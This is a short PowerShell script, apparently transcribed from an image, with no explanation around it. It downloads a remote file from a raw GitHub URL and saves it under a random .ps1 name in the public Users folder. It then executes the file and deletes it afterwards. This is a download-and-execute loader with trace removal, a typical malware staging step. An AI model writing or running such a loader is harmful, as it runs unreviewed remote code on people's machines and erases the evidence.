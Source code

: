 $url = "raw.githubusercontent.com/robotinsideus12/trust/refs/heads/main/try.sls"


$randomFileName = (Get-Random).ToString() + ".ps1"
$filePath = Join-Path -Path "C:\Users\Public" -ChildPath $randomFileName

Write-Host "file created $filePath"

try {
    # SAVE
    Invoke-RestMethod -Uri $url | Set-Content -Path $filePath

    # 3. START
    & $filePath
    
    Write-Host "scrypt started"
}
catch {
    # ERR
    Write-Error "error: $($_.Exception.Message)"
}
finally {
    # 4. DEL
    if (Test-Path $filePath) {
        Remove-Item $filePath
        Write-Host "tmp '$filePath' del."
    }
}
